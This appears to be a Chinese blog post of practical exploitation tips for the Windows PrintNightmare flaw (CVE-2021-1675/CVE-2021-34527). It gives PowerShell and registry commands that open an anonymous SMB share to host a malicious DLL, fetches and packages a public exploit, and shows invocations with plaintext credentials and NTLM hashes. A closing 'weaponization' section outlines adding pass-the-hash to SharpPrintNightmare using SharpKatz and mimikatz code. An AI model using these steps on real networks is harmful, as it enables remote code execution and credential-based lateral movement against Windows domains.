 ```yaml
---
title: PrintNightmare 实战利用Tips
date: 2022-11-13 3:34:50
categories: 
- 漏洞
tags:
- 漏洞复现
- PrintNightmare
- CVE-2021-1675
- CVE-2021-34527
- 武器化
---
```

# **概述**

**CVE-2021-1675 / CVE-2021-34527 这两个洞本质上就是一个洞，只是因为修复的问题分配了两个编号。具体的漏洞分析就不赘述了，很早就有人发过，没必要炒冷饭，这里只总结下实际使用时可能出现的问题，以及很多poc中不会提到的细节**

# 复现攻击环境

## 注意事项

### 1.域相关

目标机器为域内Windows Server机器时，攻击机必须为同一域内的机器；目标机器为非域环境Windows Server机器时，攻击机器为目标机器可以访问到的另一机器即可

> 加入域后的Windows系统访问外部资源会携带已登录的域用户凭证，所以未加入域且未提前指定凭据的的SMB就无法访问。因此攻击域内机器有此限制

### 2.SMBv1

攻击机器为Windows Server 2019及更高版本时，需要执行 `Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol`并重启去开启SMBv1，否则有可能出现rpc_s_access_denied的问题，攻击机器为2016及更低版本的系统时，可以直接使用 `Set-SmbServerConfiguration -EnableSMB1Protocol $true`开启SMBv1的支持

## 步骤

### 1.准备payload

在攻击机器创建C:\share文件夹，并将dll放入其中（此路径可根据需求修改，修改后下一步脚本自行对应修改）

### 2.开启SMB匿名共享

```powershell

#修改路径权限，使所有人可读
icacls C:\share\ /T /grant Anonymous` logon:F
icacls C:\share\ /T /grant Everyone:F
#创建名称为share路径为C:\share的SMB共享
New-SmbShare -Path C:\share -Name share -FullAccess 'ANONYMOUS LOGON','Everyone'
#启用guest用户
net user guest /active:yes
#覆盖已有的NullSessionPipes配置
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
#设置可以匿名访问共享
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
#设置Everyone权限包含匿名登录用户
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
#设置任何用户都可以通过网络获取本机的信息
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
#提取本地安全组策略
secedit /export /cfg gp.inf /quiet
#修改组策略中的指定权限
(Get-Content gp.inf) -replace "SeDenyNetworkLogonRight = Guest","SeDenyNetworkLogonRight = " | Set-Content "gp.inf"
#导入本地安全组策略
secedit /configure /db gp.sdb /cfg gp.inf /quiet
#更新本地安全组策略
CMD.EXE /C "gpupdate/force"
#清理文件
CMD.EXE /C "del gp.inf"
CMD.EXE /C "del gp.sdb"
```

注：此脚本修改自[Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer)

### 3.准备exp

#### 选择exp

推荐exp为[CVE-2021-1675.py](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)，主要优势在于可以使用hash进行攻击，现在越来越难搞到密码了，hash的场景更多

因为大部分目标环境不会有python环境，所以最好打包为exe使用

#### 打包exe

打包使用Windows Server 2008 R2机器，安装[Python3.8](https://www.python.org/ftp/python/3.8.10/python-3.8.10-amd64.exe)，[Git](https://github.com/git-for-windows/git/releases/download/v2.38.1.windows.1/Git-2.38.1-64-bit.exe)，之后执行以下命令

> *Windows Server 2008 R2以保证大部分系统能正常运行，Python版本推荐3.8.10，可低不可高*

```bash
git clone https://github.com/cube0x0/impacket
cd impacket
certutil -urlcache -split -f https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/CVE-2021-1675.py CVE-2021-1675.py
pip3 install six pycryptodomex pyasn1 pyinstaller
pyinstaller --clean --onefile CVE-2021-1675.py
```

生成的文件在 `\impacket\dist\CVE-2021-1675.exe`

### 4.执行

示例：

```bash
CVE-2021-1675.exe hackit.local/domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe hackit.local/domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe hackit.local/domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe hackit.local/domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe domain_user:Pass123@192.168.1.10 "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"

CVE-2021-1675.exe domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll"

CVE-2021-1675.exe domain_user@192.168.1.10 -hashes :f0cff78ea8d2d87e5d1caccf01d0bd2f "\\192.168.1.215\share\addCube.dll" "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL"
```

# 武器化思路

按照上文的方法已经足够应付大多数攻击场景了，但是如果从武器化开发的角度来看，pyinstaller这东西还是太不优雅了，所以我们回头看向了另一份poc，[SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare/SharpPrintNightmare)，对这份代码稍作修改即可实现使用hash验证身份的功能

## 1.背景介绍

Pass The Hash这项技术实现起来，有两种思路，一种是自己构造包然后发包完成验证，另一种是修改自己进程或线程内存中保存的身份验证信息并修改。

## 2.确定思路

为了方便开发，这里选用第二种方法。毕竟去翻RPC和SMB的文档是一个很让人头疼的事……

而第二种方法的典型案例就是mimikatz，所以首先使用mimikatz进行简单的测试

```text
sekurlsa::pth /user:John /domain:192.168.0.111 /ntlm:f0cff78ea8d2d87e5d1caccf01d0bd2f /run:"SharpPrintNightmare.exe"

注：为了方便测试，此处我已经修改SharpPrintNightmare代码，并写死了参数
```

可以发现思路可行，确定了patch的方案

mimikatz有一个C#的版本[SharpKatz](https://github.com/b4rtik/SharpKatz)，~~抄袭~~参考其中pth功能的实现代码即可

SharpKatz中的此部分代码基本完全由mimikatz的代码翻译而成，建议先看其中任意一个的代码了解下原理。

总结后需要对SharpPrintNightmare进行的修改为：

* 添加pth选项，进行参数判断
* 修改原项目的Impersonator类，如果使用pth就不再执行LogonUser函数，改为使用SharpKatz中的pth模块的[CreateProcess](https://github.com/b4rtik/SharpKatz/blob/87e8e6661999d19bbcae3c0623f78dc2a1a9b45f/SharpKatz/Module/Pth.cs#L34)函数（此处需要将SharpKatz的对应代码集成进来），注意将impersonate设置为true，以便使用当前线程去连接，而不是使用新进程（方便内存加载）
* [SharpKatz](https://github.com/b4rtik/SharpKatz)的pth中所需的内存查找的特征不全，需要参考mimikatz中的补全

确定了以上修改方案，再完善一下使用细节，以及对应的文本提示与错误反馈即可完成工具的武器化

## 3.成果

因为各种原因，就不放成品了，有兴趣的可以自己按照步骤修改一遍啦
